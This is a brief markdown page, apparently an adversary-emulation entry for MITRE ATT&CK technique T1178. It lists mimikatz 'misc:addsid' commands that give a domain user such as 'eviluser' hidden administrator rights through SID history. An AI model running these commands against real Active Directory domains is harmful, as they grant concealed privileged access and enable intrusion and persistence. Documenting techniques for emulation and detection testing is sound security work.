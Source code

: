 # SID-History Injection
MITRE ATT&CK Technique: [T1178](https://attack.mitre.org/wiki/Technique/T1178)
## Create a new domain user. Hide admin privileges with SID history
`mimikatz "misc:addsid <user> <groups>"`  
`mimikatz "misc:addsid eviluser ADSAdministrator"`
